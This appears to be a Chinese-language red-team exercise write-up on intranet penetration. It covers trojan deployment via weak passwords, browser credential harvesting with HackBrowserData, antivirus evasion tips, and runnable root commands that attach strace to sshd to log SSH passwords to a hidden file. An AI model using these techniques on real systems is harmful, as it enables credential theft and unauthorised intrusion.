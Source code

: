 晚上下班有小伙伴进入目标单位，插入网线扫描内网，发现内网办公网络存在主机弱口令，通过PUT木马使靶机A上线。在第一次尝试扫描内网后，发现没有被拦截，猜测没有检测流量，所以后面就大胆扫描内网。

## 0x04 内网渗透

做好权限维持之后进行信息收集，主要分为以下几步。

  1. 收集目标机器上安装了哪些软件、存在哪些进程，通过进程查看存在哪些杀毒软件。

  2. 使用HackBrowserData抓取浏览器的一些信息，例如浏览器历史记录、cookie、保存的账号密码（在使用过程中发现360安全浏览器是抓不到密码的）等，一般情况下能抓到系统的密码

  3. 翻文件，说不定会存在一些密码文档，例如xxx系统的密码，发现内网的一些网段。

上述说的 `HackBrowserData`工具已经被杀了，接着来说一说免杀的方法

将go引用的包名替换一下，修改特殊的字符串特征并加一个启动参数，这样基本上就不杀了

### 护网横向移动优先攻击策略

内网往往非常大，快速定位和找到关键节点是非常重要的，选择的主要原则为:

  * 快速掌握目标网络架构、网络设备及集权系统（堡垒机、运维管理机、性能监控系统、集中管控系统、域控等）

  * 查找配置文件、系统日志、建设方案、wiki（在wiki中可能会存在网络架构图）、托管代码等，获取敏感信息，为拿下核心设备打下基础。

### linux抓密码

通过外网打点拿到一个shell之后，如果需要进一步渗透，拿下这台主机的密码更是重中之重，内网渗透的本质就是信息收集，而登录凭证的收集是信息收集的重点。

#### 1.利用strace抓密码

`strace`是linux中的调试工具，可通过附加到进程来调试正在运行的进程， `strace`记录一个正在运行的程序正在执行的系统调用以及参数。

    
    
    # 查看  
    cat /proc/sys/kernel/yama/ptrace_scope  
    # 修改  
    echo 0 > /proc/sys/kernel/yama/ptrace_scope 或者 sysctl kernel.yama.ptrace_scope=0

root权限执行

    
    
    (strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)

查找用户名和密码的正则表达式为`read\(6, ".+\\0\\0\\0\\.+"`

    
    
    # 查找用户名和密码  
    grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log

![]()
